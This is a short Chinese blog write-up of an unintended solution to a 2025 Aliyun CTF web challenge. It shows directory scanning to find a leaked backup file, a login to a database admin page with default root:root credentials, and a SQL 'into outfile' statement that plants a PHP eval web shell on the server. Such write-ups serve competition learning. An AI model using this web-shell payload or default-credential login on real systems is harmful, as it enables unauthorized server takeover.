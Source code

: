 ```yaml
---
title: 2025阿里云CTF-打卡OK单题非预期wp
published: 2025-02-26
description: '2025阿里CTF单题WriteUp'
image: 'https://haowallpaper.com/link/common/file/previewFileImg/15565314748092736'
tags: [CTF,WEB安全,WP]
category: 'CTF'
draft: false 
lang: ''
---
```

地址：[AliyunCTF](https://www.aliyunctf.com/)

完整WP：[先知社区](https://xz.aliyun.com/news/17029)

进去先扫目录，扫到一个`index.php~`，明显~泄露，直接看代码：
![2025阿里云CTF-打卡OK单题非预期wp/image-20250226205242.png](2025阿里云CTF-打卡OK单题非预期wp/image-20250226205242.png)
通过这段代码，我们能拿到这么几个文件：
```
/var/www/html/cache.php
/var/www/html/ok.php
/var/www/html/error.php
```
直接看ok.php

![2025阿里云CTF-打卡OK单题非预期wp/image-20250226205329.png](2025阿里云CTF-打卡OK单题非预期wp/image-20250226205329.png)

访问进去，是个数据库的登录页面，root:root直接秒了(主办方赛后说这是用了开源镜像导致的)

后面就很简单了，直接写马就行，绝对路径代码里也有

```
select "<?php eval($_POST[1]); ?>" into outfile "/var/www/html/1.php"
```

![2025阿里云CTF-打卡OK单题非预期wp/image-20250226205820.png](2025阿里云CTF-打卡OK单题非预期wp/image-20250226205820.png)
